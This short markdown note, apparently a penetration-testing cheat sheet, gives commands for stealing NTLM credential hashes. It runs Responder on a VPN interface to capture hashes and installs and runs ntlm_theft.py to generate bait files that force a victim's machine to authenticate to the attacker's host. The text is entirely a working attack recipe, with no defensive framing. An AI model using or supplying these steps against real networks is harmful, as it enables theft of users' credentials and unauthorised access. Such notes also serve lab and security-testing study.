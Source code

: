 # Use responder to get ntlm hashes

```bash
responder -I tun0
```

# use ntlm_theft to generate files which can force a connection to you

## installation

```bash
pip3 install xlsxwriter
```

## usage

```bash
python3 ntlm_theft.py -g all -s <lhost> -f filename
```

